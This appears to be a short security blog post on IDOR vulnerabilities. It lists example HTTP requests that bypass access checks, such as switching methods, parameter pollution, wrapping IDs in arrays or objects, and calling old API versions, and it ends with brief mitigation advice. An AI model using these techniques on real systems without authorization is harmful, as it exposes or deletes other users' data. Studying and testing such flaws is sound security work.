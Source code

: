 ```yaml
---
title: "Insecure Direct Object Reference) "
tags:
    - WEB
    - idor
date: "2024-08-5"
thumbnail: "/assets/img/thumbnail/idor.jpg"
bookmark: true
---
```

# Description
---
IDOR (Insecure Direct Object Reference) is a type of access control vulnerability that occurs when an application provides direct access to objects based on user-supplied input without proper authorization checks. This can allow an attacker to access unauthorized data by simply manipulating the input parameters.

# Scenarios:

1- change HTTP method

```bash
GET /users/delete/victim_id  ->403
POST /users/delete/victim_id ->200
```

2- Path Traversal

```bash
POST /users/delete/victim_id          ->403
POST /users/delete/my_id/..victim_id  ->200
```

3- swap non-numeric with numeric id

```bash
GET /file?id=90djbkdbkdbd29dd
GET /file?id=302
```

5- send wildcard instead of an id

```bash
GET /api/users/user_id ->
GET /api/users/*
```

6- HTTP Parameter POllution Give mult value for same parameter

```bash
GET /api_v1/messages?user_id=attacker_id&user_id=victim_id
GET /api_v1/messages?user_id=victim_id&user_id=attacker_id
```

7- json parameter pollution

```bash
{"userid":1234,"userid":2542}
```

8- Wrap the ID with an array in the body

```bash
{"userid":123} ->401
{"userid":[123]} ->200
```

9- wrap the id with a json object

```bash
{"userid":123} ->401
{"userid":{"userid":123}} ->200
```

10- Test an outdata API version

```bash
GET /v3/users_data/1234 ->401
GET /v1/users_data/1234 ->200
```

# Mitigation

- Access Validation :Check the user authorization before user requests it
- the application could use a UUID such as:
```bash
https://www.example.com/settings/user/e194da7f-3d74-48e9-ac49-4c72e1b02eeb
```